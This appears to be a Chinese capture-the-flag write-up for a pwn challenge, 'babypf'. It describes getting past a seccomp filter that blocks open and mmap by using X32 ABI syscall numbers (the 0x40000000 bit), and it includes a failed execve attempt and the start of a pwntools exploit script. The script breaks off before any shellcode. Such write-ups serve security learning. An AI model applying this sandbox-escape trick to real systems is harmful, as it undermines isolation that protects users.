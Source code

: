 只禁用了open,mmap,openat, open\_by\_handle_at和ptrace

第一反应:那为啥不直接用execve???

```
$ python exp.py                                
[+] Starting local process './babypf': pid 23036
[*] Switching to interactive mode
[*] Process './babypf' stopped with exit code 0 (pid 23036)
sh: error while loading shared libraries: libc.so.6: cannot open shared object file: Invalid argument
THANK YOU
[*] Got EOF while reading in interactive
$  
```

果然是我太年轻了

wp上说Since 3.4 the Linux kernel has had a feature called the X32 ABI; 64bit syscalls with 32bit pointers.

看了一下`/usr/include/x86_64-linux-gnu/asm/unistd_x32.h`

内容如下

```
#ifndef _ASM_X86_UNISTD_X32_H
#define _ASM_X86_UNISTD_X32_H 1

#define __NR_read (__X32_SYSCALL_BIT + 0)
#define __NR_write (__X32_SYSCALL_BIT + 1)
#define __NR_open (__X32_SYSCALL_BIT + 2)
#define __NR_close (__X32_SYSCALL_BIT + 3)
#define __NR_stat (__X32_SYSCALL_BIT + 4)
#define __NR_fstat (__X32_SYSCALL_BIT + 5)
#define __NR_lstat (__X32_SYSCALL_BIT + 6)
#define __NR_poll (__X32_SYSCALL_BIT + 7)
#define __NR_lseek (__X32_SYSCALL_BIT + 8)
#define __NR_mmap (__X32_SYSCALL_BIT + 9)
#define __NR_mprotect (__X32_SYSCALL_BIT + 10)
......
```

而`__X32_SYSCALL_BIT`为`0x40000000`

构造shellcode读出flag

```
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']
context.arch = 'amd64'
local = 1

if local:
	cn = process('./babypf')
	bin = ELF('./babypf',checksec=False)
	#libc = ELF('',checksec=False)
else:
	#cn = remote('')
	pass


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()

```